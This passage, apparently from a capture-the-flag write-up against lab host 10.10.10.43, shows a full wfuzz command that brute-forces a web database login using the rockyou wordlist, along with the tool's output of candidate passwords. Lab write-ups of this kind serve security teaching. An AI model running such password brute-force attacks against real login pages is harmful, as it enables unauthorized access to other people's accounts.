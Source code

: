 => --hh 13949


```
# wfuzz -z file,/usr/share/wordlists/rockyou.txt -d "password=FUZZ&remember=yes&login=Log+In&proc_login=true" -b PHPSESSID=s1soh390fah01sfvojpgovrc15 --hh 13949  https://10.10.10.43/db/index.php 

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: https://10.10.10.43/db/index.php
Total requests: 14344392

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000029:  C=200    483 L	    1112 W	  13948 Ch	  "soccer"
000044:  C=200    483 L	    1112 W	  13948 Ch	  "carlos"
000134:  C=200    483 L	    1112 W	  13948 Ch	  "789456"
000217:  C=200    483 L	    1112 W	  13948 Ch	  "hellokitty"
000258:  C=200    483 L	    1112 W	  13948 Ch	  "kenneth"
000273:  C=200    483 L	    1112 W	  13948 Ch	  "barcelona"
000364:  C=200    483 L	    1112 W	  13948 Ch	  "johncena"
000389:  C=200    483 L	    1112 W	  13948 Ch	  "catherine"
000418:  C=200    483 L	    1112 W	  13948 Ch	  "muffin"

```

Back to firefox, the cookie put us in :)
![](img/https_10.10.10.43_db_index.png)

